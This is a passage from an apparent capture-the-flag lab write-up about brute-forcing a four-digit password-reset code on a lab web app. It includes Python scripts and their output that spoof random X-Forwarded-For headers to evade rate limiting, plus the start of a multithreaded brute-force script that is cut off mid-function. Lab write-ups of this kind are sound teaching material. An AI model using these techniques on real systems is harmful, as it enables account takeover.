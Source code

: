 ```python
    else:
        print(f"[-] Tried code: {recovery_code} | X-Forwarded-For: {headers['X-Forwarded-For']}")

print("[-] Brute-force complete.")
```

So now, we can try as many times as we want but… The countdown is always of **180 seconds** and if we didn’t find the recovery code in the meantime, then we have to restart it. With this script, we eventually reach the 180 seconds allowed. 

```shell
python3 brutecode.py
[-] Tried code: 0000 | X-Forwarded-For: 79.188.68.238
[-] Tried code: 0001 | X-Forwarded-For: 209.37.195.129
[-] Tried code: 0002 | X-Forwarded-For: 131.65.10.222
[-] Tried code: 0003 | X-Forwarded-For: 26.153.133.124
[-] Tried code: 0004 | X-Forwarded-For: 254.94.233.111
[-] Tried code: 0005 | X-Forwarded-For: 238.254.61.34
[-] Tried code: 0006 | X-Forwarded-For: 226.111.85.59
[-] Tried code: 0007 | X-Forwarded-For: 27.240.245.9
[-] Tried code: 0008 | X-Forwarded-For: 187.29.132.109
[-] Tried code: 0009 | X-Forwarded-For: 34.139.35.121
[-] Tried code: 0010 | X-Forwarded-For: 33.172.120.228
[-] Tried code: 0011 | X-Forwarded-For: 84.53.136.18
[-] Tried code: 0012 | X-Forwarded-For: 195.140.177.6
[-] Tried code: 0013 | X-Forwarded-For: 49.250.103.230

[...]
```

Hence, we need to find something else.

Thankfully for us, there is a solution. We can send multiple requests simultaneously using **multi-threading**. We will do this by using the `concurrent.futures` Python library to manage a pool of threads that will each be handling a portion of the task. Here is the updated code :

```python
import requests
import random
from concurrent.futures import ThreadPoolExecutor

# Target URL
url = "http://10.10.141.73:1337/reset_password.php"

# Headers with session cookie
base_headers = {
    "Host": "10.10.141.73:1337",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://10.10.141.73:1337",
    "Referer": "http://10.10.141.73:1337/reset_password.php",
    "Cookie": "PHPSESSID=fq0f19f1o8377hhtb4aclp3oib",  # Replace with your session cookie
    "Connection": "keep-alive",
    "Upgrade-Insecure-Requests": "1"
}

# Function to generate a random IP address
def random_ip():
    return ".".join(str(random.randint(0, 255)) for _ in range(4))

# Function to brute-force a specific recovery code
def try_code(code):
```